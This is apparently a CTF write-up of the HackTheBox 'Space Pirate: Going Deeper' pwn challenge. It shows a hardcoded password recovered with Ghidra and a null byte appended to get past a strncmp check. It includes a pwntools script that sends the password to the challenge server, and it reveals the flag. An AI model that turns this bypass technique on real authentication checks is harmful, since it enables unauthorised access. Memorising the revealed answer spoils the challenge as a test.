

# [Cyber Apocalypse CTF 2022 from HackTheBox](../) - Space Pirate: Going Deeper

* **Category:** Pwn
* **Points:** 300 points

## Challenge

> We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?

## TL;DR
Find the password `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` in ghidra, and send a null byte at the end due to the use of `strncmp`.

## Solution

There are two paths here. The first is I believe doing some type of ROP to override the safety mechanisms values of `a`, `b`, `c` to `0xdeadbeef`, `0xdeadc0de`, and `0x1337beef`.

I took the second path, which was just to enter in the password.

```
[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>> 

```

Taking a look in ghidra, we can see the logic and the password.


As the function used here is `strncmp`, it will continue comparison of the string until it hits a certain number of characters, or a null byte. So sending a null byte appended to `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` should get us through to the flag.

I did this through a quick python script using pwntools:
```python
from pwn import *

#p = process('./sp_going_deeper')
p = remote('64.227.37.154','31439')
for i in range(42):
    p.readline() # Read until the prompt
p.sendline('2') # Login
p.readline() # Read to prompt
p.sendline(b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00')
print(p.readuntil('}')) # Read to end of flag
```

```
>> python3 exploit.py
[+] Opening connection to 64.227.37.154 on port 31439: Done
b'[*] Username: \n\x1b[1;32m[+] Welcome admin! The secret message is: HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}'
[*] Closed connection to 64.227.37.154 port 31439
```

```
HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}
```
